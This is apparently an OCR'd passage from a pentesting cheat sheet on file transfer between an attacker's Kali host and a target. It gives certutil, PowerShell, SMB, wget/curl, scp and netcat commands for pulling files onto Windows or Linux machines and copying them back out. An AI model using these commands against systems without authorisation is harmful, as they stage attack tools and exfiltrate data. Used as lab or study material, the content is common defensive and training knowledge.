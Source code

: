 CMD
```
certutil -urlcache -split -f http://$lhost:$lport/file.ext file.ext
```

Powershell
```
iwr -uri http://$lhost:$lport/file.ext -OutFile file.ext
(New-Object Net.WebClient).DownloadFile("http://$lhost:$lport/file.ext","C:\path\to\file.ext")
Invoke-WebRequest "http://$lhost:$lport/file.ext" -OutFile "file.ext"
```

### SMB

Copy files from Kali to Windows:
```
copy \\$lhost\sharename\file.ext file.ext
```

Copy file from Windows to Kali:
```
copy file.ext \\$lhost\sharename\file.ext
```


## Linux

```
wget http://$lhost:$lport/file.ext
curl http://$lhost:$lport/file.ext -o /path/to/file.ext
```

### SCP

Credits:
[How to Use SCP Command for File Transfer](https://www.hostinger.com/tutorials/using-scp-command-to-transfer-files/#:~:text=SCP%20(secure%20copy%20protocol)%20is,for%20your%20data%20and%20credentials.)

Copying from a local server to a remote host and can use `-r` to copy multiple files or subdirectories:
```
scp -P [-r] 2222 /users/Hostinger/desktop/scp.zip root@191.162.0.2:/writing/article
```

Transferring a Remote File to a Local Machine
```
scp root@191.162.0.2:/writing/articles/SCP.zip Users/Hostinger/Desktop
```

Safely Moving a File Between Remote Hosts
```
scp root@191.162.0.2:/writing/article/scp.zip hostinger@11.10.0.1:/publishing
```

### nc
Machine that you have a file:
```
nc -lvnp $lport > new_file
```
